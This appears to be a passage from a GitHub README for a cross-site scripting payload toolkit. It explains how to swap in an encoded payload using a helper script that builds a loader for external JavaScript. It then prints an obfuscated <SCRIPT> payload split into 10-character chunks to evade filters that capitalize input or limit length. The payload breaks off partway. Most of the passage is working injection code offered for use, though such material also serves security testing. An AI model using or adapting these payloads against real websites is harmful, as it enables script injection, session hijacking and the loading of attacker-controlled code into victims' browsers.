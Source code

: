 ```
             // anonymous function with J as the body, which
             // is then executed
```

### How to modify it

Replace the encoded payload above, in `(X[C](`**_encoded payload_**`))()`, with the output from:

```bash
python2 fetch_helpers.py -x '//myown/external/js' -e num_to_string --toString N
```

**Note:** You can give it an arbitrary payload using the `-p` option. See `python2 fetch_helpers.py --help` for more options.

## Usecase: payload is being capitalized, character limit &gt;= 10

* *Works with arbitrary payloads*
* *No additional wrapping needed*
* *`<script>` must not be blocked*
* *Payloads order on page __does__ matter.*

Payload is the same as the one above. Split here to 10 characters for completeness.

**TO DO:** Encoder in `fetch_helpers.py` to split this to arbitrary length.

```
<SCRIPT>/*
*/T=!0/*
*/+[];/*
*/F=!1/*
*/+[];/*
*/I=1/0/*
*/+[];/*
*/X=/*
*/F[0]+/*
*/I[3]+/*
*/F[2]+/*
*/F[2];/*
*/X=[]/*
*/[X];/*
*/Y=/*
*/X+[];/*
*/C=/*
*/Y[3]+/*
*/Y[6]+/*
*/Y[7]+/*
*/F[3]+/*
*/T[0]+/*
*/T[1]+/*
*/T[2]+/*
*/Y[3]+/*
*/Y[4]+/*
*/Y[6]+/*
*/T[1];/*
*/S=""/*
*/[C]/*
*/+[];/*
*/N=/*
*/C[8]+/*
*/C[9]+/*
*/S[9]+/*
*/S[10]+/*
*/S[11]+/*
*/S[12]+/*
```